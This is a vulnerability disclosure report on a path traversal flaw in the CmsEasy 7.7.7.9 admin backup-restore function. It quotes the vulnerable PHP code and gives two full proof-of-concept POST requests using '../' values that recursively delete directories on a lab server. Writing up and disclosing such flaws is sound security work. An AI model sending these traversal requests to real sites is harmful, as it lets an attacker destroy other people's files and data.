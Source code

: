 # CmsEasy has a path traversal vulnerability.



**Note: This vulnerability requires backend access.**



# Vendor Information



**Developer:** 四平市九州易通科技有限公司 ( Siping Jiuzhou Yitong Technology Co., Ltd. )

**Product Information:** CmsEasy V7.7.7.9 (20240105)

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Introduce



**Note: This reproduction requires logging into the admin panel first.**

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` (function: `restore_action`) that allows arbitrary path deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary path.



# Trigger Point

**Note: This vulnerability requires backend access.**

The vulnerability is located in the `lib/admin/database_admin.php` file, specifically in the `restore_action` function.

**Note:** In the project, `front::post` is equivalent to `$_POST`.

**Objective:** Pass a crafted `payload` to execute `front::remove($dir.'/'.$d);`.

```php
function restore_action() {
        chkpw('func_data_restore');
        $dir=ROOT.'/data/backup-data/';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                front::remove($dir.'/'.$d);   // -------------执行点--------
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\./',$dir) &&!preg_match('/hotsearch/',$dir)) $db_dirs[]=$dir;
        }
        $this->view->db_dirs=$db_dirs;
    }
```



# Vulnerability Analysis

**Note: This vulnerability requires backend access.**

It can be observed that the `restore_action` function directly concatenates inputs without any filtering, allowing for directory traversal.

Next, let's examine the implementation of the `remove` function.

```php
static function remove($dirname)
    {
        if (is_dir($dirname)) {
            $dir = new RecursiveDirectoryIterator($dirname);
            foreach ($dir as $k => $v) {
                if (!$dir->isDot()) {
                    if ($v->isDir()) {
                        self::remove($v->getPathname());
                    } else {
                        unlink($v->getPathname());
                    }
                }
            }
            unset($dir);
            rmdir($dirname);
            return true;
        }
        return false;
    }
```

**Function: Recursively deletes the specified directory and all its contents (including subdirectories and files).**



## Request Construction



Due to partial source code obfuscation, testing has revealed the following:

**Request Analysis:**

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

The `case` parameter corresponds to the business logic file located in the `lib/admin` directory (`xxxx_admin.php`). (In this example, it is `database_admin.php`.)

The `act` parameter corresponds to the `xxxx_action` function within the file specified by `case`. (In this example, it is the `backAll_action()` method.)

The `admin_dir` parameter points to the backend directory. (This vulnerability requires backend access.)

The `site` parameter is the default parameter when not explicitly configured.



Therefore, based on this, we construct the request: `{xxxx}` in the POST data represents the trigger point.

The following request targets the `restore_action` function in `database_admin.php`.

```http
http://127.0.0.1:5678/index.php?case=database&act=restore&admin_dir=admin&site=default

POST:
submit=1&select[]={xxxx}
```



## **POC Construction and Verification**



Create a directory `11` at the same level as `data/backup-data` (which may include subdirectories) as an example to avoid directly damaging the website environment.

![image-20250129225807278](/assest/cmseasy/vul-3/cmseasy-3.1.png)

**Constructing the Payload**

```http
POST /index.php?case=database&act=restore&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.216.1:5678
Content-Length: 29
Cache-Control: max-age=0
Origin: http://192.168.216.1:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.216.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=l3roi1git2t3i2ma7p6jv86ie6; loginfalse=0; login_username=admin; login_password=aYUHEbyItYBTBUSfIYvkyMB79nyjAlRP%253DUPk1YvRdYx%253DL2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=../11
```



**The response template not existing is a normal behavior (this is expected).**

![image-20250129225913985](/assest/cmseasy/vul-3/cmseasy-3.2.png)



**Check the `11` directory and confirm that it has been successfully deleted.**

![image-20250129225947966](/assest/cmseasy/vul-3/cmseasy-3.3.png)

**Continue the verification by creating a subdirectory `11` under the website root directory as an example (it may include substructures) to test recursive deletion.**

![image-20250129230020319](/assest/cmseasy/vul-3/cmseasy-3.4.png)

**Constructing the Payload**

```http
POST /index.php?case=database&act=restore&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.216.1:5678
Content-Length: 26
Cache-Control: max-age=0
Origin: http://192.168.216.1:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.216.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=l3roi1git2t3i2ma7p6jv86ie6; loginfalse=0; login_username=admin; login_password=aYUHEbyItYBTBUSfIYvkyMB79nyjAlRP%253DUPk1YvRdYx%253DL2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=../../11
```

**Check and confirm that the `11` directory has been successfully deleted.**

![image-20250129230122043](/assest/cmseasy/vul-3/cmseasy-3.5.png)

**Vulnerability successfully verified.**

